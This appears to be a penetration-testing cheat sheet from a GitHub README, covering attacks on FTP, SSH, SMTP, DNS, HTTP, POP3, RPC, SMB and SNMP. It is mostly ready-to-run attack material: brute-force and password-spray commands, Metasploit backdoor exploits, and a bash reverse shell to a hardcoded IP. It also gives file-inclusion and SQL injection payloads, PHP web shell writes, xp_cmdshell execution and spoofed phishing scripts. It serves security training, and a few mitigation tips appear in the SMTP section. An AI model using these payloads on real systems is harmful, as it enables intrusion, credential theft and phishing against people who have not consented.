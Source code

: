 ## **🛡️ Network Protocols**

### Network protocols allow devices to communicate and exchange data over a network. Here’s an expanded explanation of some commonly used protocols in penetration testing:
---

<details>
<summary>1.📂 FTP (File Transfer Protocol) port 21 </summary>
 <br>   
- **Port:** 21 (TCP)
- **Function:** FTP is used for transferring files between a client and a server. FTP operates over two channels:
    - **Control channel** (for sending commands)
    - **Data channel** (for transferring the actual files).
- **Common Security Issues:**
    - **Anonymous login:** Some FTP servers are misconfigured to allow anonymous logins, providing unauthorized access to files.
    - **Clear-text credentials:** FTP sends usernames and passwords in clear text, making it vulnerable to sniffing attacks.

---

### **1.1. Penetration Testing on FTP**
FTP enumeration
```bash
ftp <IP>
#login if you have relevant creds or based on nmap scan find out whether this has an anonymous login or not, then login with Anonymous:password

put <file> #uploading file
get <file> #downloading file

#NSE
locate .nse | grep ftp
nmap -p21 --script=<name> <IP>

#bruteforce
hydra -L users.txt -P passwords.txt <IP> ftp #'-L' for usernames list, '-l' for username and vice versa

# Check for vulnerabilities associated with the identified version.
```
![image](https://github.com/user-attachments/assets/70094f78-e27a-446e-a97f-6eb39cff347c)

---
### **1.1.1. Anonymous Login**

When performing penetration testing, an attacker can attempt to log in using **anonymous credentials** if the FTP server allows it. Many misconfigured FTP servers allow anonymous access for easier file sharing, which is a security risk.

**Example FTP login attempt:**

```bash

ftp 192.168.188.131
Name: Anonymous
Password: Anonymous

```
![image](https://github.com/user-attachments/assets/00f9a1e5-3e22-4ad2-86cc-10d990b43574)


If the server allows anonymous login, you will be able to interact with the server and explore its contents.

---

### **1.1.2. Sniffing FTP Credentials (Clear-text Passwords)**

Because FTP doesn’t encrypt traffic, usernames and passwords are sent in clear text. An attacker can use sniffing tools to capture this data, which can be used to compromise the server.

- **Wireshark:** A tool that can capture network packets and allow an attacker to see the FTP credentials.

**How to sniff credentials:**

1. **Start an FTP session**:
    
    ```bash
    
    ftp 192.168.188.131
    
    ```
    
2. **Capture the traffic using Wireshark.**
3. **Follow the TCP stream** to see the credentials:
    - Look for packets containing the string `"PASS"` in Wireshark, which indicates the password being sent.

**Filter clear-text credentials:**

```
frame contains "PASS"
```
![image](https://github.com/user-attachments/assets/84ba48da-79ce-4da8-89d0-0158d5ee9db2)

---

### **1.1.3. FTP Brute-Force Attack (Hydra)**

**Hydra** is a popular tool for performing brute-force attacks against various services, including FTP. It can attempt multiple combinations of usernames and passwords to gain unauthorized access.

**Example of brute-forcing FTP login:**

```bash

hydra -L user -P pass 192.168.188.131 ftp
hydra -L wordlist.txt -P wordlist.txt 192.168.188.131 ftp
use: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <ip> ftp

```

- **L** specifies a file with usernames.
- **P** specifies a file with passwords.
- **ftp** is the target protocol.

The **wordlist** file contains a list of possible usernames or passwords to be tried. A strong wordlist (such as **rockyou.txt**) increases the chance of success.
![image](https://github.com/user-attachments/assets/eafa1572-24ac-4ef1-93bd-6734b79ad5e0)

---

### **1.1.4. FTP Remote Shell via Nmap Script**

You can also use **Nmap** to exploit specific vulnerabilities in FTP servers. The `ftp-vsftpd-backdoor.nse` script is designed to exploit a vulnerability in **vsFTPd 2.3.4**, which contains a backdoor.

**Example Nmap command to check for the backdoor:**

```bash

sudo nmap -p 21 192.168.188.131 -sV --script ftp-vsftpd-backdoor.nse

```

This will test if the FTP server is vulnerable to the **vsFTPd backdoor**. If the server is vulnerable, you may be able to execute commands remotely.
![image](https://github.com/user-attachments/assets/48113953-c487-4bfa-bf04-49b376c60901)

---

### **1.1.5. Exploiting FTP Vulnerabilities with Metasploit**

Metasploit is another powerful tool used for exploiting vulnerabilities in systems. If the FTP server is running a vulnerable version of vsFTPd (e.g., **vsFTPd 2.3.4**), Metasploit can be used to exploit it.

**Steps to exploit vsFTPd 2.3.4 with Metasploit:**

1. **Search for the exploit:**
    
    ```bash
    
    msfconsole
    search vsftpd 2.3.4
    
    ```
    
2. **Use the exploit:**
    
    ```bash
  
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 192.168.188.131
    exploit
    
    ```
    
3. **Interact with the remote shell:**
    
    ```bash
   
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    ```
    

By exploiting this vulnerability, you can get access to the **root** account on the target machine.
![image](https://github.com/user-attachments/assets/2c266ec1-e757-4442-970e-cc713e589347)

</details> 

<details>
 
<summary>2.🔒 SSH (Secure Shell) port 22 </summary>
 <br>
**Secure Shell (SSH)** is a cryptographic network protocol designed for secure communication over an unsecured network. It is primarily used for remote login and command-line execution, replacing older, less secure protocols like Telnet and rlogin
https://www.ssh.com/academy/ssh/public-key-authentication

https://docs.github.com/en/authentication/connecting-to-github-with-ssh/about-ssh

## SSH enumeration


#Login

    ssh uname@IP #enter the password in the prompt

#id_rsa or id_ecdsa file
chmod 600 id_rsa/id_ecdsa
ssh uname@IP -i id_rsa/id_ecdsa #if it still asks for the password, crack it using John

**Enumerating SSH authentication method
The SSH authentication method can be enumerated by using the ssh-auth-methods script in nmap, the username can be given using the –script-args flag. The following command can be used to enumerate the authentication method used:

    nmap --script ssh-auth-methods --script-args="ssh.user=pentest" -p 22 <ip>
#cracking id_rsa or id_ecdsa

     ssh2john id_ecdsa(or)id_rsa > hash
     john --wordlist=/home/sathvik/Wordlists/rockyou.txt hash

bruteforce
Since the authentication is password based hence the service can be brute forced against a username and password dictionary using hydra to find the correct username and password. After creating a username dictionary as users.txt and password dictionary as pass.txt, the following command can be used:

    hydra -l uname -P passwords.txt <IP> ssh #'-L' for usernames list, '-l' for username and vice versa
    hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<ip>

**Nmap SSH brute-force script

    nmap --script ssh-brute -p 22 <ip>
# Check for vulnerabilities associated with the identified version.

Use full commands:
- `t rsa`: Specifies the RSA algorithm.
- `b 4096`: Specifies the key length (4096 bits is recommended).
- You can also use `b 2048` for a shorter key length.
- **Follow the prompts:**
- Enter the path to save the key (default is `~/.ssh/id_rsa`).
- Enter a passphrase for the private key (optional but recommended for security).
- You'll have a public key (`~/.ssh/id_rsa.pub`) and a private key (`~/.ssh/id_rsa`).

### Authentication using Metasploit

An alternate way to perform the above procedure could be done by using the Metasploit module. The exploit multi/ssh/sshexec can be used to authenticate into the SSH service. Here we are assuming that the attacker has compromised the username and password already. Following will be the commands inside the Metasploit:

    use exploit/multi/ssh/sshexec
    set rhosts 192.168.31.205
    set payload linux/x86/meterpreter/reverse_tcp
    set username pentest
    set password 123
    show targets
    set target 1
    exploit

###Key based authentication (Metasploit)

The above procedure can also be performed using the Metasploit framework. The auxiliary/scanner/ssh/ssh_login_pubkey can be used to authenticate via key.

Following options can be given as configurations to run the auxiliary/scanner:

    use auxiliary/scanner/ssh/ssh_login_pubkey
    set rhosts 192.168.31.205
    set key_path /root/Downloads/ssh/id_rsa
    set key_pass 123
    set username pentest
    exploit
**while performing the brute force using hydra, the updated port needs to be given. Hence, the new command will be:

    hydra -L users.txt -P pass.txt <ip> ssh -s 2222
<img width="749" height="232" alt="image" src="https://github.com/user-attachments/assets/1aeefe88-7835-4718-857f-1107a5bb211a" />


**2. Copy the Public Key to the Server:**

Use the ssh-copy-id command.

Code

```jsx
    ssh-copy-id -i ~/.ssh/id_rsa.pub user@server_ip_or_hostname
```

- Replace `user` with your username on the server.
- Replace `server_ip_or_hostname` with the server's IP address or hostname.
- **Alternatively, manually copy the public key:**
- Read the contents of `~/.ssh/id_rsa.pub`.
- SSH into the server.
- Create the directory `~/.ssh` if it doesn't exist.
- Create or edit the file `~/.ssh/authorized_keys`.
- Append the contents of your public key to the `authorized_keys` file.
- Change the permissions of `~/.ssh` to `700` and `authorized_keys` to `600`.

Code

```jsx
    mkdir -p ~/.ssh    chmod 700 ~/.ssh   
    touch ~/.ssh/authorized_keys    
    chmod 600 ~/.ssh/authorized_keys    
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

**3. Log in with the Private Key:**

- **Open your terminal**: on your local machine.
- Use the `ssh` command with the `i` option:
  ```jsx
  ssh -i ~/.ssh/id_rsa user@server_ip_or_hostname
  ssh -oHostKeyAlgorithms=+ssh-rsa TCM@10.10.81.58 -p22
  ```
  ![image](https://github.com/user-attachments/assets/bdb18c28-6296-4013-bd28-4d6edafd81e9)

**LAB**

🔍 1. Scan the Target with Nmap
You used Nmap to detect open ports, services, and versions on the target machine:

       nmap -sV -A -Pn -p22 192.168.188.131
![image](https://github.com/user-attachments/assets/0c302403-7c3a-43ba-8ae1-07e071f8290d)
identified OpenSSH 4.7p1

🌐 2. Search for Exploits
A quick Google search led to a publicly available exploit on GitHub.
![image](https://github.com/user-attachments/assets/5c3d0256-140d-496c-9a9d-659eee20cc72)

📥 3. Download the Exploit
You cloned the exploit repository using:

    git clone https://github.com/sec-jarial/OpenSSH_4.7p1-Exploit.git
    cd OpenSSH_4.7p1-Exploit

 
🐍 4. Fix Script Error: Bad Interpreter
When running the script:
 
    ./openssh_4.7p1.py                
    zsh: ./openssh_4.7p1.py: bad interpreter: /usr/bin/python3^M: no such file or directory

 ![image](https://github.com/user-attachments/assets/665777b1-d68e-4932-a420-ee61d5bd2a19)

✅ Fix: Convert Line Endings
The error indicates Windows-style line endings (CRLF). Fix it using:

    dos2unix openssh_4.7p1.py
Or, use a text editor (e.g., VS Code, Vim) to convert to LF.

🐍 5. Set the Correct Python Interpreter
Ensure the shebang (#!) at the top of the script points to your actual Python binary:

    #!/usr/bin/env python3
Replace the shebang accordingly.
Specify Correct Python Path: 

    #!/home/kali/path/to/venv/bin/python

![image](https://github.com/user-attachments/assets/19748c1f-cdd1-4297-88b6-e87a7104d17b)

▶️ 6. Run the Exploit
Now the script should execute without interpreter errors:

    ./openssh_4.7p1.py

![image](https://github.com/user-attachments/assets/e1e593d4-99f6-43cd-af6e-a231c1fcfb9d)

Result: Got the SSH shell

![image](https://github.com/user-attachments/assets/31ed8b76-ded9-427e-9850-9d19cf7f7ee7)


</details>
<details>
 <summary>3. SMTP (Simple Mail Transfer Protocol) port 25</summary>
 <br>
What is SMTP?
SMTP is the Simple Mail Transfer Protocol used to send emails between mail servers. It typically listens on port 25, though ports 587 (submission) and 465 (SMTPS) are also common.

Misconfigurations in SMTP servers—such as open relays, authentication bypass, or exposed user verification commands (VRFY/EXPN)—can be exploited to enumerate users, send spoofed phishing emails, or relay attacks.

🔎 ENUMERATING SMTP
🧪 Manual Banner Grabbing
bash

    nc -nv <IP> 25
Useful commands in the SMTP session:

smtp

    EHLO attacker.com
    VRFY root
    EXPN admin
    RCPT TO:test@target.com
Common responses:

250 OK → valid
550 User unknown → invalid
252 Cannot VRFY user → unverified (could be valid)

🛠 Tools for User Enumeration
✅ smtp-user-enum
Supports VRFY, RCPT, and EXPN modes.

bash

    smtp-user-enum -M VRFY -U users.txt -t <IP>
Other modes:

-M RCPT (works even if VRFY is disabled)
-M EXPN (useful if aliases/mailing lists are configured)

✅ Metasploit
bash

    use auxiliary/scanner/smtp/smtp_enum
    set RHOSTS <IP>
    set RPORT 25
    set USER_FILE users.txt
    run
✅ iSMTP (Kali Tool)
Test for enumeration, spoofing, and relay support.

bash

    ismtp -h <IP>:25 -e email_list.txt
✅ nmap Script
bash

    nmap -p 25 --script smtp-enum-users <IP>
💣 Exploiting Open Relay
An Open Relay allows unauthenticated users to send mail to external domains—ideal for phishing or spamming.

✅ Manual via Telnet
bash

    telnet <IP> 25
    HELO attacker.com
    MAIL FROM: attacker@attacker.com
    RCPT TO: victim@externaldomain.com
    DATA
    Subject: Test Message

    This is a test message.
    .
If 250 OK is received after RCPT TO, the server is likely an open relay.

✅ Nmap Open Relay Check
bash

    nmap -p 25 --script smtp-open-relay <IP>
📤 Sending Emails (Phishing / Spoofing)
✅ Using swaks
swaks is a powerful SMTP tester and spam/phish simulation tool.

bash

    swaks --to victim@target.com --from admin@target.com --server <IP> \--header "Subject: Update Required" --body @body.txt \--attach @file.pdf --auth LOGIN --auth-user attacker --auth-password password
Also works without auth on open relays:

bash

    swaks --to victim@target.com --from ceo@target.com --server <IP> --data "Subject: Urgent Action\nClick here"
🛠 ALTERNATIVE TOOLS
Tool	Purpose
smtp-user-enum	Bruteforce usernames via SMTP responses
swaks	Send test/phishing emails via SMTP
nmap smtp- scripts*	Banner grabbing, enum, relay checks
Metasploit smtp_enum	VRFY/EXPN-based user brute-force
iSMTP	Enumeration and spoofing test
smtp-cli	Lightweight mail-sender (can spoof headers)
Python + smtplib	Custom phishing or payload delivery scripts

🧪 Python Script Example (Spoofed Email)
python

    import smtplib
    from email.message import EmailMessage

    msg = EmailMessage()
    msg.set_content("This is a phishing test.")
    msg['Subject'] = 'Urgent Action Required'
    msg['From'] = 'admin@company.com'
    msg['To'] = 'victim@company.com'

    server = smtplib.SMTP('<IP>', 25)
    server.send_message(msg)
    server.quit()
🛡️ Mitigation Tips
❌ Disable VRFY and EXPN commands (or return generic error like 252)

❌ Disable open relay (ensure relay is restricted to known internal IPs)

✅ Use SMTP AUTH and TLS for submission

✅ Monitor SMTP logs for brute-force attempts or external relays

✅ Apply SPF, DKIM, and DMARC to prevent spoofing

📚 Real-World Use Cases
🎣 Phishing Campaigns – Sending fake internal alerts or staged payloads

🕵️ Internal Recon – Validating usernames before brute-forcing SMB/WinRM

🧠 Password Spray – Combining usernames from SMTP enumeration in other protocols (SMB, HTTP, WinRM, etc.)

</details>

<details>
<summary>4. DNS (Domain Name System) port 53</summary>
 <br>
- Better use `Seclists` wordlists for better enumeration. https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

```
host www.megacorpone.com
host -t mx megacorpone.com
host -t txt megacorpone.com

for ip in $(cat list.txt); do host $ip.megacorpone.com; done #DNS Bruteforce
for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found" #bash bruteforcer to find domain name

## DNS Recon
dnsrecon -d megacorpone.com -t std #standard recon
dnsrecon -d megacorpone.com -D ~/list.txt -t brt #bruteforce, hence we provided list

# DNS Bruteforce using dnsenum
dnsenum megacorpone.com

## NSlookup, a gold mine
nslookup mail.megacorptwo.com
nslookup -type=TXT info.megacorptwo.com 192.168.50.151 #We are querying the information from a specific IP, here it is 192.168.50.151. This can be very useful
```
</details>

<details>
<summary>5. HTTP/S (Hypertext Transfer Protocol) port 80, 443</summary>
 <br>
- View the source code and identify any hidden content. If an image looks suspicious, download it and try to find hidden data in it.
- Identify the version or CMS and check for active exploits. This can be done using Nmap and Wappalyzer.
- check /robots.txt folder
- Look for the hostname and add the relevant one to `/etc/hosts` file.
- Directory and file discovery - Obtain any hidden files that may contain juicy information

```
dirbuster
dirb http://<ip> /usr/share/seclists/Discovery/Web-Content/raft-medium-words -R
gobuster dir -u http://example.com -w /path/to/wordlist.txt
python3 dirsearch.py -u http://example.com -w /path/to/wordlist.txt
```

- Vulnerability Scanning using nikto: `nikto -h <url>`
- `HTTPS`SSL certificate inspection, may reveal information like subdomains, usernames…etc
- Default credentials: Identify the CMS or service, check for default credentials, and test them out.
- Bruteforce

```
hydra -L users.txt -P password.txt <IP or domain> http-{post/get}-form "/path:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for https, post, or get, which can be obtained from Burpsuite. Also, capture the response for detailed information.

#Bruteforce can also be done by Burpsuite but it's slow, prefer Hydra!
```

- if `cgi-bin` is present, then do further fuzzing and obtain files like .sh or .pl
- Check if other services like FTP/SMB or any other that has upload privileges are getting reflected on the web.
- API - Fuzz further, and it can reveal some sensitive information

```
#identifying endpoints using gobuster
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern #pattern can be like {GOBUSTER}/v1 here v1 is just for example, it can be anything

#obtaining info using curl
curl -i http://192.168.50.16:5002/users/v1
```

- If there is any Input field check for **Remote Code execution** or **SQL Injection**
- Check the URL, whether we can leverage **Local or Remote File Inclusion**.
- Also check if there’s any file upload utility(also obtain the location it’s getting reflected)

**Wordpress**

```
# basic usage
wpscan --url "target" --verbose

# enumerate vulnerable plugins, users, vulnerable themes, timthumbs
wpscan --url "target" --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log

# Add Wpscan API to get the details of vulnerabilties.
wpscan --url http://alvida-eatery.org/ --api-token NjnoSGZkuWDve0fDjmmnUNb1ZnkRw6J2J1FvBsVLPkA

#Accessing Wordpress shell
http://10.10.67.245/retro/wp-admin/theme-editor.php?file=404.php&theme=90s-retro

http://10.10.67.245/retro/wp-content/themes/90s-retro/404.php
```

**Drupal**

```
droopescan scan drupal -u http://site
```

**Joomla**

```
droopescan scan joomla --url http://site
sudo python3 joomla-brute.py -u http://site/ -w passwords.txt -usr username #https://github.com/ajnik/joomla-bruteforce
```
### **Web Attacks**

💡 Cross-platform PHP revershell: [

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php))

**Directory Traversal**

```
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

**Local File Inclusion**

- The main difference between Directory traversal and this attack is that we can execute commands remotely here.

```
#At first we need
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```

- Remote file inclusion

```
1. Obtain a php shell
2. host a file server
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

**SQL Injection**

```
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

- Blind SQL Injection - This can be identified by Time-based SQLI

```
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

```
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from the web, then follow the below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```

- SQLMap - Automated Code Execution

```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```
</details>

<details>
<summary>6. POP3 (Post Office Protocol Version 3) port 110</summary>
 <br>
**Post Office Protocol** \(**POP**\) is a type of computer networking and Internet standard **protocol** that extracts and retrieves email from a remote mail server for access by the host machine. **POP** is an application layer **protocol** in the OSI model that provides end users the ability to fetch and receive email \(from [here](https://www.techopedia.com/definition/5383/post-office-protocol-pop)\).

The POP clients generally connect, retrieve all messages, store them on the client system, and delete them from the server. There are 3 versions of POP, but POP3 is the most used one.

**Default ports:** 110, 995\(ssl\)

```text
PORT    STATE SERVICE
110/tcp open  pop3
```

## Enumeration

### Banner Grabbing

```bash
nc -nv <IP> 110
openssl s_client -connect <IP>:995 -crlf -quiet
```

## Manual

You can use the command `CAPA` to obtain the capabilities of the POP3 server.

## Automated

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port <PORT> <IP> #All are default scripts
```

The `pop3-ntlm-info` plugin will return some "**sensitive**" data \(Windows versions\).

### [POP3 bruteforce](../brute-force.md#pop)

## POP syntax

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

From [here](http://sunnyoasis.com/services/emailviatelnet.html)

Example:

```text
root@kali:~# telnet $ip 110
 +OK beta POP3 server (JAMES POP3 Server 2.3.2) ready 
 USER billydean    
 +OK
 PASS password
 +OK Welcome billydean

 list

 +OK 2 1807
 1 786
 2 1021

 retr 1

 +OK Message follows
 From: jamesbrown@motown.com
 Dear Billy Dean,

 Here is your login for remote desktop ... try not to forget it this time!
 username: billydean
 password: PA$$W0RD!Z
```

```

### Identifying Issues

- Clear-text authentication (no SSL/TLS).
- Weak credentials (try common usernames/passwords).
- Default or anonymous access.

### Exploiting

```bash

# Manual login attempt
telnet <IP> 110
USER <username>
PASS <password>

# Hydra brute force
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 110 -vV <IP> pop3

```

### References

- HackTricks - POP3
- POP3 RFC 1939
</details>



<details>
<summary>7.🔌 RPC (Remote Procedure Call) port 111 </summary>
 <br>
RPC allows a program on one computer to execute a procedure on another computer.

**Enumerating with RPCClient:**
**Connect to RPC server with an anonymous bind:**
```bash

$ rpcclient -U "" -N <target>
srvinfo
enumdomusers #Enumerate Domain Users
enumpriv #like "whoami /priv"
queryuser <user> #detailed user info
getuserdompwinfo <RID> #password policy, get user-RID from previous command
getdompwinfo #Get Domain Password Info
lookupnames <user> #SID of specified user
createdomuser <username> #Creating a user
deletedomuser <username>
enumdomains
enumdomgroups # Enumerate Domain Groups
querygroup <group-RID> #get rid from previous command
querydispinfo #description of all users
querygroupmem 0x200 #Query Group Membership
netshareenum #Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenumall
lsaenumsid #SID of all users

```

This will provide information about the target system and its users.
![image](https://github.com/user-attachments/assets/1a5d498c-8a6d-4a91-b017-69b62a6cb5e2)

“RID are relative identifier to identify an object which will be in hexa decimal format”

![image](https://github.com/user-attachments/assets/d3e9af35-e0b2-4c72-b893-e7a24141b82a)

**Password Spray Attack**

The following script will iterate over usernames and passwords and try to execute "getusername". Watch out for "ACCOUNT_LOCKED" error messages.

```
TARGET=10.10.10.10;
while read username; do
  while read password; do
    echo -n "[*] user: $username" && rpcclient -U "$username%$password" -c "getusername;quit" $TARGET | grep -v "NT_STATUS_ACCESS_DENIED";
  done < /path/to/passwords.txt
done < /path/to/usernames.txt
```

If a password is found, use it with smbclient to explore the SYSVOL:

```
$ smbclient -U "username%password" \\\\<target>\\SYSVOL
Domain=[HOME] OS=[Windows Server 2008]
...
smb: \> ls
...
```
---
</details>

<details>
<summary>8.🗂️ SMB (Server Message Block) port 139,445</summary>
 <br>
SMB is a protocol used for file and printer sharing, as well as inter-process communication between computers.

**Example Nmap command to scan for SMB services:**

```bash

sudo nmap -p 445 -sV -sC 192.168.188.131
locate .nse | grep smb
nmap -p445 --script="name" $IP 

```
![image](https://github.com/user-attachments/assets/5f4b1ffc-baab-4de5-9c0f-dcb520401b1c)


**Enumerating SMB Shares:**

```bash
#In windows we can view like this
net view \\<computername/IP> /all

enum4linux -L -S 192.168.188.131
smbclient -L 192.168.188.131 -N
smbmap -H 192.168.188.131
#If you got user name and password:
smbmap -H 192.168.188.131 -u "msfadmin" -p "msfadmin" -r tmp -A '.*' -q

```

**Brute-forcing SMB credentials:**

```bash

hydra -l admin -P /home/kali/pass.txt smb://192.168.188.131
or
netexec smb 192.168.188.131 -u admin -p /home/kali/pass.txt --continue-on-success

```
![image](https://github.com/user-attachments/assets/c592d34d-613f-49b5-9a92-c3b8c951958a)
```bash
# Smbclient
smbclient -L //IP #or try with 4 /'s
smbclient //server/share
smbclient //server/share -U <username>
smbclient //server/share -U domain/username

#SMBmap
smbmap -H <target_ip>
smbmap -H <target_ip> -u <username> -p <password>
smbmap -H <target_ip> -u <username> -p <password> -d <domain>
smbmap -H <target_ip> -u <username> -p <password> -r <share_name>

#Within SMB session
put <file> #to upload file
get <file> #to download file
```
Downloading shares is easy—if the folder consists of several files, they will all be downloaded by this.
```bash
mask ""
recurse ON
prompt OFF
mget *
```
**Exploit SMB:**
Try to connect with no pass

```jsx
smbclient --no-pass //192.168.188.131/tmp
```

login as Anonymous:

![image](https://github.com/user-attachments/assets/1e13a6c6-3293-4bf3-a01e-bb3303698da0)


since we have smb access i tried:
```jsx
put rev.sh
posix 
chmod +x rev.sh
chown Anonymous rev.sh
open rev.sh
```
But didnt work:
Failed to open file /rev.sh. NT_STATUS_ACCESS_DENIED
![image](https://github.com/user-attachments/assets/4a71afb8-42f0-471e-bebb-bc7bc0a83107)

SMB Version Samba 3.0.20 found, search for exploits:
```bash
searchsploit samba 3.0.20  
locate multiple/remote/10095.txt
cat /usr/share/exploitdb/exploits/multiple/remote/10095.txt
```
![image](https://github.com/user-attachments/assets/6603e3bd-03ea-4424-8d4c-f3aac3acdd52)

</details>
<details>
<summary>9.📡 SNMP (Simple Network Management Protocol) port UDP 161</summary>
 <br>
What is SNMP?
Simple Network Management Protocol (SNMP) is used to manage and monitor networked devices (routers, switches, printers, servers, etc.). It typically runs over UDP port 161 for general communication and UDP port 162 for traps.
SNMP is used to manage and monitor network devices. It can be exploited if the community string is weak or known (like **public** or **private**).
![image](https://github.com/user-attachments/assets/c4d02453-3331-4739-bf58-f38aea7a6133)
Devices expose information using MIBs (Management Information Base).

SNMP is stateless and supports versions v1, v2c, and v3:

v1/v2c are widely used but insecure (community strings are in plaintext).

v3 adds encryption and authentication.

🧭 Enumeration Techniques
1. Port Scanning
bash

       nmap -sU -p 161,162 <target-ip>
-sU: Scan UDP ports
-p: Specify SNMP ports (161 for queries, 162 for traps)

2. snmpwalk
bash

       snmpwalk -v1 -c public <target-ip>
Use -v2c or -v3 as needed.

Common community strings: public, private, manager.

Useful OIDs:
1.3.6.1.2.1.1.5.0 – Hostname

1.3.6.1.2.1.25.1.6.0 – System processes

1.3.6.1.2.1.25.4.2.1.2 – Running processes

1.3.6.1.4.1 – Vendor-specific MIBs


**Example SNMP enumeration with `snmpcheck`:**

```bash

snmpcheck -c public -h 192.168.188.131
snmpcheck -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP> #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25 #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2 #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2 #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3 #Opened TCP Ports

#Windows MIB values
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports

```
if community string was public try to connect with snmpcheck
![image](https://github.com/user-attachments/assets/1eef5dc1-7a3e-40e9-9b37-ce2bfea237d9)

try to use snmp walk
![image](https://github.com/user-attachments/assets/3a136368-a50b-4fb4-a7dd-63d72ed69358)

**Brute-forcing SNMP community strings:**

```bash

onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.146.156
or
snmpwalk -v1 -c public 192.168.146.156 NET-SNMP-EXTEND-MIB :: nsExtendObjects

```

3. snmpset (Active interaction)
bash

       snmpset -v1 -c private <target-ip> iso.3.6.1.2.1.1.5.0 s "hacked"
Requires write access (via private community string).

4. Dump Output to File
bash

       snmpwalk -v1 -c public <target-ip> > snmpout.txt
gedit snmpout.txt
